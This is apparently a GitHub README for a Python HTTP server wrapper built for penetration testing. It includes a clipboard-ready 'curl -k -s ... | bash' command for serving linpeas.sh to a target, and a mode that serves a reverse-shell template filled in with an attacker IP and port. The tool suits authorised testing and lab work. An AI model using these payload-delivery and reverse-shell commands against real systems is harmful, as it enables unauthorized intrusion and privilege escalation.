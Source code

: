 # http-server

> Extension for python's http server. It eases serving content, supports SSL too.

## Usage

```
usage: server.py [-h] [--bind addr] [--verbose] [--ssl] [--kv K1=V1:K2=V2] [index] [port]

positional arguments:
  index                 Specify content to serve, defaults to current directory
  port                  Specify alternate port, default: 9000

optional arguments:
  -h, --help            show this help message and exit
  --bind addr, -b addr  Specify alternate bind address, default: 0.0.0.0
  --verbose, -v         Increase verbosity, print request
  --ssl, -ssl           Use SSL
  --kv K1=V1:K2=V2      Specify match-and-replace rules
```

### 1. Serve static content

> If no arguments are specified, it serves files from the current directory under the port and interface specified in [config.json](config.json).

```bash
$ alias serve="../path-to/http-server/server.py"
$ serve /example/directory
```

- If a file is specified as first argument, the option for copying the download command is provided based on the file
  extension:

```bash
$ serve /path/to/linpeas.sh 
Serving /path/to/linpeas.sh at http://0.0.0.0:9000
Copy 'curl -k -s http://0.0.0.0:9000 | bash' to clipboard? [Enter] 
Copied ✔️
```

- The above command can be shortened as:

```bash
$ serve lp
```

given the following entry in [config.json](config.json):

```json
...
"alias": {
"lp": "/path/to/linpeas.sh",
...
}
...
```

### 2. Serve dynamic content

> Reverse shell, template: [shell.sh](core/shell.sh)

```bash
$ serve rev --kv REPLACE_IP=$ip:REPLACE_PORT=9000
```
